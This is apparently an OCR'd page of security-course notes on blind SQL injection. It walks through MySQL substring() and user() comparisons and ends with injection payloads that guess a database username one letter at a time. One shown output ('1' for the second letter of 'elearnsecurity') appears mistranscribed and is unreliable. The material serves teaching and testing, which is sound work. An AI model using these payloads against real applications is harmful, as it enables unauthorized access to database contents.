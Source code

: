   **substring()** returns a substring of the given argument. It takes three parameters: the input string, the position of the substring and its length.
    ```
    mysql> select substring('elearnsecurity', 2, 1);
    +-----------------------------------+
    | substring('elearnsecurity', 2, 1) |
    +-----------------------------------+
    | 1                                 |
    +-----------------------------------+
    1 row in set (0.00 sec)
    ```

  Functions can be used as arguments of other functions.
    ```
    mysql> select substring(user(), 1, 1);
    +-------------------------+
    | substring(user(), 1, 1) |
    +-------------------------+
    | r                       |
    +-------------------------+
    1 row in set (0.00 sec)
    ```

  Moreover, SQL allows you to test the output of a function in a True/False condition.
    ```
    mysql> select substring(user(), 1, 1) = 'r';
    +------------------------------+
    | substring(user(), 1, 1) = 'r'|
    +------------------------------+
    | 1                            |                   // True
    +------------------------------+
    1 row in set (0.00 sec)
    mysql> select substring(user(), 1, 1) = 'a';
    +------------------------------+
    | substring(user(), 1, 1) = 'a'|
    +------------------------------+
    | 0                            |                   // False
    +------------------------------+
    1 row in set (0.00 sec)
    ```

  By combining those features we can iterate over the letters of the username by using payloads such as:
  - `' or substr(user(), 1, 1) = 'a`
  - `' or substr(user(), 1, 1) = 'b`
  - `...`

